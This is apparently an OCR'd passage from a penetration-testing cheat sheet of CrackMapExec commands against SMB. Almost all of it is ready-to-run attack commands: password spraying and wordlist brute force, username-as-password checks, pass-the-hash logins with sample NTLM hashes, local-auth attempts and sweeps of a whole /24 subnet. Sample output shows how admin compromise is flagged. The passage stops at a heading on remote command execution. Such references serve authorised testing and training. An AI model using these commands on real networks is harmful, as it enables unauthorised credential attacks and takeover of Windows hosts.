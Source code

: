     ```bash
    crackmapexec smb <target_ip> -u <username_list> -p '<password>' --continue-on-success
    ```
*   **Checking login == password using wordlist:**

    ```bash
    crackmapexec smb <target_ip> -u <username_list> -p <username_list>
    ```
*   **Checking multiple usernames/passwords using worlist:**

    ```bash
    crackmapexec smb <target_ip> -u <username_list> -p <password_list>
    ```
*   **Checking one login equal one password using wordlist:** No bruteforce possible with this one as 1 user = 1 password. Avoid range or a list of IP when using option `--no-bruteforce`

    ```bash
    crackmapexec smb <target_ip> -u <username_list> -p <password_list> --no-bruteforce --continue-on-succes
    ```
*   **Domain Authentication:** Failed logins result in a `[-]`; Successful logins result in a `[+] Domain\Username:Password`. Local admin access results in a (Pwn3d!) added after the login confirmation, shown below.

    ```bash
    SMB         192.168.1.101    445    HOSTNAME          [+] DOMAIN\Username:Password (Pwn3d!)
    ```
*   **Authenticate Using User/Password:** The following checks will attempt authentication to the entire /24 though a single target may also be used.

    ```bash
    crackmapexec smb <target_ip>/24 -u <username> -p '<password>'
    ```
*   **Authenticate Using User/Hash:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -H '<LM:NT>'
    crackmapexec smb <target_ip> -u <username> -H '<ntlmhash>'

    crackmapexec smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
    crackmapexec smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454'
    ```
*   **Authenticate Using User/Password/Hashes:** Adding `--local-auth` to any of the authentication commands with attempt to logon locally.

    ```bash
    crackmapexec smb <target_ip> -u '' -p '' --local-auth
    crackmapexec smb <target_ip> -u <username> -p '<password>' --local-auth
    crackmapexec smb <target_ip> -u <username> -H '<LM:NT>' --local-auth
    crackmapexec smb <target_ip> -u <username> -H '<ntlmhash>' --local-auth

    crackmapexec smb <target_ip> -u <username> -H '13b29964cc2480b4ef454c59562e675c' --local-auth
    crackmapexec smb <target_ip> -u <username> -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c' --local-auth
    ```
*   **Executing commands:** Uses wmiexec, atexec, or smbexec.
